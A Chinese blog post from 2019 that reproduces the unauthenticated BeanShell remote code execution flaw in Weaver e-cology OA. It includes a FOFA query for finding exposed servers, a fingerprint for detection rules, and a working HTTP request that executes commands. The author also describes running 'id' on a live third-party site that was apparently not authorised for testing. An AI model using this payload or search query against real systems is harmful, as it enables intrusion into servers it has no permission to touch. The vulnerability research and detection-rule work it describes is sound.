 ```yaml
---
layout:     post
title:      泛微ecology OA系统远程代码执行漏洞
subtitle:   泛微ecology OA系统远程代码执行漏洞
date:       2019-09-23
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：泛微e-cology OA系统远程代码执行漏洞
* CVE编号：N/A
* 发布时间：2019-09-19
* 漏洞说明：泛微 e-cology OA 系统自带 BeanShell 组件且开放未授权访问，攻击者调用 BeanShell 组件接口可直接在目标服务器上执行任意命令。
* 影响范围：泛微 e-cology<=9.0
* 修复建议：1、关闭 BeanShell 接口； 2、安装厂商发布的安全补丁

## 0x01 复现漏洞
从漏洞介绍中，我们知道这是一个未授权访问导致的远程代码执行漏洞，以下接口就是未授权范围的一个接口：
```
/weaver/bsh.servlet.BshServlet
```

由于本地环境环境不好搭建，我先从FOFA网络空间搜索引擎中先搜一个站点获取到泛微e-cology的指纹和尝试输出打印命令：
FOFA搜索语法如下：
```
app="泛微-协同办公OA"&&app="泛微协同商务系统"
```
我选一个存在漏洞的网址进行下无损测试
在域名后面拼接上漏洞路径后访问如下，包含关键词"BeanShell Test Servlet"，这在写策略的时候是需要的，需要记录一下：
![图片](../../../../img/ecologyoa_rce_1.png)

先不着急执行命令，我们来找一下Web指纹，我发现Set-Cookie中含有ecology关键词，那么就以这个来作为泛微e-cology OA系统的指纹规则：
```
Set-Cookie: ecology_JSessionId
```

然后我们在执行一个打印输出命令并对HTTP请求进行抓取，并对HTTP包的一些字段进行删除，最简HTTP请求包如下所示：
```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: $HOST_PORT$
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36

bsh.script=exec%28%22echo+security%22%29%3B%0D%0A%0D%0A%0D%0A%0D%0A
```

最后我还是没忍住，输入了一个id命令查询了一下用户ID，如下图所示，你没有看错就是最高权限！
吓得我急忙关闭。
![图片](../../../../img/ecologyoa_rce_2.png)
## 0x02 总结
今天遇到的最多的就是问题，主要是扫描器还没很完善，在正则表达式的匹配上面有问题，花了很多时间，一直在搞正则，没想到是程序设计的问题。
保存漏洞策略的时候也遇到了保存失败的问题，忘记了Windows下不能以有一些特殊字符来命令文件，比如大于号小于号问好等等。
